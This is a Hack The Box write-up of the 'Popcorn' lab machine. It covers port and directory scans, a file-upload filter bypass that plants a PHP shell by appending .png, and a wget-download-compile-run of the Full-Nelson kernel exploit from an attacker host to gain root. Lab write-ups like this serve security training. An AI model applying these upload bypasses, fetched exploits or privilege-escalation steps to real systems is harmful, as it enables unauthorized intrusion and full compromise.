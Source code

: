 ```yaml
---
layout: post
title:  "HTB Popcorn Machine Writeup"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


# Nmap scan
```
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```

# Dirsearch results
```
[06:17:51] 200 -  177B  - /
[06:17:52] 200 -  177B  - /index
[06:18:00] 200 -   48KB - /test
[06:18:28] 301 -  310B  - /torrent  ->  http://10.10.10.6/torrent/
[06:19:31] 301 -  309B  - /rename  ->  http://10.10.10.6/rename/
```

# Webapp things
'/torrent' from the directory bruteforce looks interesting, it directs to a torrent hosting site. There is capability to upload files but we cant due to being unauthenticated. Luckily theres also a signup form so we can be authenticated.
Attempting a straight file upload with a php shell and typical bypasses didnt end up working out. Since the name mentions torrents, i tried a torrent file such as the default kali torrent. This file works just fine. After uploading theres an option to upload an image along with the file. This time appending .png to our php shell allows us to get a connection once we navigate to '/torrent/uploads'


# Getting root
Digging around searchsploit and exploitdb for a kernel exploit was an idea because the kernel is dated as 2009. 
```
“Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04) - 'Full-Nelson.c' Local Privilege Escalation”
``` 
Use wget on the box to get the file, compile and execute to gain root.
```
www-data@popcorn:/dev/shm$ wget http://10.10.14.6:8000/15704.c
wget http://10.10.14.6:8000/15704.c
--2018-12-04 13:35:08--  http://10.10.14.6:8000/15704.c
Connecting to 10.10.14.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 9487 (9.3K) [text/plain]
Saving to: `15704.c'

100%[======================================>] 9,487       36.7K/s   in 0.3s    

2018-12-04 13:35:08 (36.7 KB/s) - `15704.c' saved [9487/9487]

www-data@popcorn:/dev/shm$ gcc 15704.c -o fml 
gcc 15704.c -o fml
www-data@popcorn:/dev/shm$ chmod +x fml
chmod +x fml
www-data@popcorn:/dev/shm$ file fml
file fml
fml: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.15, not stripped
www-data@popcorn:/dev/shm$ ./fml
./fml
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xf840a280
 [+] Resolved econet_ops to 0xf840a360
 [+] Resolved commit_creds to 0xc01645d0
 [+] Resolved prepare_kernel_cred to 0xc01647d0
[*] Calculating target...
[*] Triggering payload...
[*] Got root!
# cat /root/root.txt
cat /root/root.txt
<redacted>
# 
```

aaaaand done.
